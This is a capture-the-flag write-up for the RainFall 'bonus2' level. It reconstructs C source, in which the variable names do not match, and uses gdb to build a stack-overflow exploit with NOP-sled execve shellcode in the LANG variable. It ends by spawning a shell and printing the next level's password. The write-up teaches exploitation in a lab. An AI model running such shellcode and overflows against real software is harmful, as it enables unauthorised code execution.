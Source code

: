 # Bonus 2

<h3>source.c</h3>

```console
int language = 0;

void greetuser(char *arg) {
	char str[72];

	if (language == 1) {
		strcpy(str, "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4 ");
	}
	else if (language == 2) {
		strcpy(str, "Goedemiddag! ");
	}
	else if (language == 0) {
		strcpy(str, "Hello ");
	}
	strcat(str, arg);
	puts(str);
}

int main(int ac, char **av) {
	char	str[76];
	char	*env = NULL;

	if (ac != 3) {
    return (1);
  }
	memset(str, 0, 19 * 4);
	strncpy(str, av[1], 40);
	strncpy(str + 40, av[2], 32);
	env = getenv("LANG");
	if (env != 0) {
		if (memcmp(env, "fi", 2) == 0) {
			lang = 1;
		}
    else if (memcmp(env, "nl", 2) == 0) {
			lang = 2;
		}
	}
	greetuser(str);
	return (0);
}
```

<h3>Analysis</h3>

In this program, there is no `system()` and it is protected by `ASLR`, so the only way to spawn a shell will be through `ShellCode`

Since there is some `strcpy()` we should be able to exploit the buffer overflow

The function do `strncpy()` of 40 bytes for `argv[1]` and 32 bytes for `argv[2]` so total will be around 72 bytes

Lets try to see if we could cause segfault with this amount of bytes

```console
(gdb) run $(python -c 'print "a" * 40') $(python -c 'print "b" * 32')

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "a" * 40') $(python -c 'print "b" * 32')
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb

Program received signal SIGSEGV, Segmentation fault.
0x08006262 in ?? ()
```

It seems that the `bb` is writen in the return address, but with only 2 bytes of overflow, we couldn't write any address on this

Lets try to check if we set the env `LANG` to either `fi` or `nl` since there concat greeting is longer than the default `hello`

```console
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ gdb -q bonus2
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) run $(python -c 'print "a" * 40') $(python -c 'print "b" * 32')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "a" * 40') $(python -c 'print "b" * 32')
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
```

Yes, it seems that if we set the `LANG` env to `fi` it will cause overflow and able to totally rewrite the return address, for sure `nl` could achieve the same as well

Our goal this time will be to overwrite the return address and point it to our `ShellCode` in the env

<h3>Exploit</h3>

First lets check the offset we need to overflow with `LANG = fi`

```console
(gdb) run $(python -c 'print "a" * 40') AAAABBBBCCCCDDDDEEEEFFFF

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "a" * 40') AAAABBBBCCCCDDDDEEEEFFFF
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDDDDEEEEFFFF

Program received signal SIGSEGV, Segmentation fault.
0x46464545 in ?? ()
(gdb)
```

From this we can see that the offset for `argv[2]` will be `18`

Next lets put our `ShellCode` together with the `LANG` env

```console
export LANG=`python -c "print 'fi' + '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"`
```

Now we need to get the address for the `ShellCode`

```console
(gdb) break *0x08048630
Breakpoint 1 at 0x8048630
(gdb) run $(python -c 'print "a" * 40') AAAABBBBCCCCDDDDEEEEFFFF
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "a" * 40') AAAABBBBCCCCDDDDEEEEFFFF
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaAAAABBBBCCCCDDDDEEEEFFFF

Program received signal SIGSEGV, Segmentation fault.
0x46464545 in ?? ()
x/s *((char **)environ+11)
0xbffffe70:	 "LANG=fi\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"
(gdb) x/32wx 0xbffffe70
0xbffffe70:	0x474e414c	0x9069663d	0x90909090	0x90909090
0xbffffe80:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffe90:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffea0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffeb0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffec0:	0x90909090	0x90909090	0x90909090	0x90909090
```

From there we can choose any address that contain the `\x90`, and the `NOP slide` will bring us to the beginning of our `ShellCode`, example `0xbffffe80`

Now its time to build our payload and try it

```console
bonus2@RainFall:~$ ./bonus2 `python -c "print 'a' * 40"` `python -c "print 'b' * 18 + '\x80\xfe\xff\xbf'"`
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbb����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```